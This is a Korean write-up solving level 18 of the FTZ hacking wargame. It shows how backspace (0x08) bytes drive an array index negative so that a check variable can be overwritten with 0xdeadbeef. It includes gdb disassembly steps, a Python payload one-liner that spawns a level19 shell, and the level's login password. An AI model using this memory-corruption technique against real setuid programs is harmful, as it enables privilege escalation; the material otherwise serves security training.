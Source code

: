 # FTZ Level18

#### ID : level18 PW: why did you do it
<br>

우선 hint의 내용을 보자<br>
```cat hint```<br>
이미지


~~(코드가 매우 길다...)~~<br>

코드를 보면 check 변수 값이 0xdeadbeef면 shellout 함수가 호출돼 level19권한으로 /bin/sh이 실행된다.<br>
하지만 string[100]보다 check변수가 뒤에 존재하므로 전에 풀던 방식으로 풀 수는 없다!<br>
다만 0x08 입력이 들어오면 count 변수가 1 감소하는데 이 count 변수는 string 배열의 인덱스를 조절하므로 이 배열의 인덱스가 마이너스가 되도록 하면 앞의 메모리에 접근이 가능할 것이다.!<br>
즉 string 배열로 check 변수에 접근이 가능하다는 것이다.<br>

우리의 목적을 생각해보자.<br>
1. string[100]에서 check까지 거리 구하기
2. check에 0xdeadbeef 덮어씌우기
3. 공격!

attackme 파일을 tmp로 옮기고 디버깅해보자<br>
```
gdb -q attackme
set disas intel
disas main
```<br>

<main+499>를 보면 string에서 ebp까지의 거리가 100인 것을 알 수 있고<br>
<main+91>을 보면 check에서 ebp까지의 거리가 104인 것을 알 수 있다.<br>
따라서 string에서 check까지의 거리는 -4이다.<br>

0x08을 입력해 count 변수가 1 감소하는 것을 이용해 페이로드를 작성해보자.<br>
```(python -c 'print "\x08"*4+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "\x08"*4+"\xef\xbe\xad\xde"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level19 Password is "~~". 라고 나올 것이다!!

